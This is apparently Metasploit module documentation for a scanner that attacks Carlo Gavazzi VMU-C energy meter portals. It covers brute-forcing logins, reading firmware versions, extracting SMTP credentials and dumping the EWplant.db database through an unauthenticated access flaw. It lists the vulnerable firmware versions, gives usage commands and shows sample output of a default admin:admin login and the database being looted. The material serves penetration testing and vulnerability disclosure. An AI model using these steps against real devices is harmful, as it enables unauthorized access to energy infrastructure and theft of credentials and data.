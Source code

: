 This module scans for Carlo Gavazzi Energy Meters login portals, performs a login brute force attack, enumerates device firmware version, and attempt to extract the SMTP configuration. A valid, admin privileged user is required to extract the SMTP password. In some older firmware versions, the SMTP config can be retrieved without any authentication.

The module also exploits an access control vulnerability which allows an unauthenticated user to remotely dump the database file EWplant.db. This db file contains information such as power/energy utilization data, tariffs, and revenue statistics.

Vulnerable firmware versions include:

VMU-C EM prior to firmware Version A11_U05
VMU-C PV prior to firmware Version A17.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/gavazzi_em_login_loot```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/http/gavazzi_em_login_loot
msf auxiliary(gavazzi_em_login_loot) > set rhosts 1.3.3.7
msf auxiliary(gavazzi_em_login_loot) > set rport 80
msf auxiliary(gavazzi_em_login_loot) > run

[+] 1.3.3.7:80 - [1/1] - Running Carlo Gavazzi VMU-C Web Management portal...
[*] 1.3.3.7:80 - [1/1] - Trying username:"admin" with password:"admin"
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "admin":"admin"
[+] 1.3.3.7:80 - Firmware version A8_U03...
[+] 1.3.3.7:80 - SMTP server: "", SMTP username: "", SMTP password: ""
[*] 1.3.3.7:80 - dumping EWplant.db
[+] 1.3.3.7:80 - EWplant.db retrieved successfully!
[+] 1.3.3.7:80 - File saved in: /root/.msf4/loot/20000000000005_moduletest_1.3.3.7_EWplant.db_501578.db
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
